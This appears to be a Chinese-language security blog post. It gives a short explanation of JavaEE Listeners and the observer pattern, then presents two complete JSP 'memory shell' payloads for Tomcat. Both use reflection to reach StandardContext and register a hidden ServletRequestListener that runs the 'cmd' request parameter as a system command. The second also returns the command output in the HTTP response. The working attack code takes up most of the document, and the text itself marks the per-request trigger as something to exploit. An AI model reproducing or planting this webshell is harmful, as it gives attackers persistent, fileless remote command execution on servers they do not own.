

Listener 它是 JavaEE 的规范，就是接口。用于监听 JavaWeb 程序中的事件。（如：ServletContext、HttpSession、ServletRequest的创建、修改和删除）

监听器的作用是，监听某种事物的变化。然后通过回调函数，反馈给客户（程序）去做一些相应的处理。

在 JavaWeb 中，可以为某些事件来设置监听器，当事件被触发时，监听器中的指定方法会被调用。

Servlet程序、Filter 过滤器 和 Listener 监听器 并称 WEB 的三大组件。

Listener 的原理是基于观察者模式的，所谓的观察者模式简单来说，就是当被观察者的特定事件被触发（一般在某些方法被调用后），会通知观察者（调用观察者的方法），观察者可以在自己的的方法中来对事件做一些处理。

## Java Web中常见的Listener类型

| 类型                     | 触发事件                                                            |
| ---------------------- | --------------------------------------------------------------- |
| ServletContextListener | 在ServletContext创建和关闭时都会通知ServletContextListener监听器。             |
| HttpSessionListener    | 当一个HttpSession刚被创建或者失效（invalidate）的时候，将会通知HttpSessionListener监听 |
| ServletRequestListener | 在ServletRequest创建和关闭时都会通知ServletRequestListener监听器 ,每次请求触发！利用这个！          |

## ServletRequestListener的生命周期



^
```
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%
    Object obj = request.getServletContext();
    java.lang.reflect.Field field = obj.getClass().getDeclaredField("context");
    field.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) field.get(obj);
    //获取ApplicationContext
    field = applicationContext.getClass().getDeclaredField("context");
    field.setAccessible(true);
    StandardContext standardContext = (StandardContext) field.get(applicationContext);
    //获取StandardContext
    ListenerDemo listenerdemo = new ListenerDemo();
    //创建能够执行命令的Listener
    standardContext.addApplicationEventListener(listenerdemo);
%>
<%!
    public class ListenerDemo implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            System.out.println("requestDestroyed");
        }
        public void requestInitialized(ServletRequestEvent sre) {
            System.out.println("requestInitialized");
            try{
                String cmd = sre.getServletRequest().getParameter("cmd");
                Runtime.getRuntime().exec(cmd);
            }catch (Exception e ){
                //e.printStackTrace();
            }
        }
    }
%>
```

^
带回显
```
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%--声明一个恶意Filter--%>
<%!
    public class ListenerShell implements ServletRequestListener {
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            ServletRequest req = sre.getServletRequest();
            Class reqClass = req.getClass();
            try {
                Field field = reqClass.getDeclaredField("request");
                field.setAccessible(true);
                Response  resp = ((Request) field.get(req)).getResponse();
                String cmd = req.getParameter("cmd");
                if (cmd != null) {
                    Process proc = Runtime.getRuntime().exec(cmd);
                    BufferedReader br = new BufferedReader(
                            new InputStreamReader(proc.getInputStream()));
                    String line;
                    while ((line = br.readLine()) != null) {
                        resp.getWriter().println(line);
                    }
                    br.close();
                }
            } catch (Exception e) {
                throw new RuntimeException(e);
            }

        }

        @Override
        public void requestDestroyed(ServletRequestEvent servletRequestEvent) {}


    }
%>
<%--从ServletContext中获取StandardContext--%>
<%
    // 从request中获取servletContext
    ServletContext servletContext = request.getServletContext();
    // 从servletContext中获取applicationContext
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
    // 从applicationContext中获取standardContext
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
<%--动态注册恶意Listener--%>
<%
    standardContext.addApplicationEventListener(new ListenerShell());
%>
```